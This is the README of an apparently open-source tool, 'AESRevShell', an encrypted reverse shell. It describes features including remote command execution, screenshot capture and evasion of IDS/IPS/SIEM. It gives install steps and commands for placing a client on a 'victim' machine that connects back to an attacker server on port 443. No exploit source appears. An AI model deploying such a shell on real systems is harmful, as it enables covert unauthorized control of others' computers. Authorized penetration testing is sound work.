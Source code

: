 # AESRevShell

## 🔐 Overview
AESRevShell is a **secure reverse shell tool** that utilizes:
- **AES-GCM** for authenticated encryption
- **ECDH** (Elliptic Curve Diffie-Hellman) for secure key exchange
- **HKDF** for key derivation

Ideal for **pentesting** and **security research** in monitored environments.

## ✨ Key Features
| Feature | Description |
|---------|-------------|
| **MITM Protection** | ECDH prevents interception |
| **Forward Secrecy** | Ephemeral session keys |
| **Command Execution** | Remote command execution with encrypted responses |
| **Encrypted Screenshots** | Captures and encrypts target screen |
| **Traffic Obfuscation** | Bypasses IDS/IPS/SIEM |
| **Cross-Platform** | Works on Linux/Windows/macOS |
| **No Key Sharing** | Automatic secure exchange |

```mermaid
sequenceDiagram
   participant Server
   participant Client
   Server->>Client: Public Key (ECDH)
   Client->>Server: Public Key (ECDH)
   Note right of Server: Derives shared secret
   Note left of Client: Derives shared secret
   Server->>Client: Encrypted (AES-GCM) Command
   Client->>Server: Encrypted Response
```

## **Demos**
![image](https://github.com/user-attachments/assets/2a1486f1-7dfb-44fd-b0a8-893816e6de6f)
![image](https://github.com/user-attachments/assets/ec125041-cbcd-435a-9949-00a60fe581c1)

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusCyb3rH4ck/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## 🖥️ **Usage**

- Upload the '**client.py**' into victim's machine

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p SERVER_PORT
```

### Special commands

- `screenshot` - Captures target screen
- `exit` - Terminates session
- `CTRL + L` - Clears console

## ⚠️ **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

## 🤝 **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

## **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
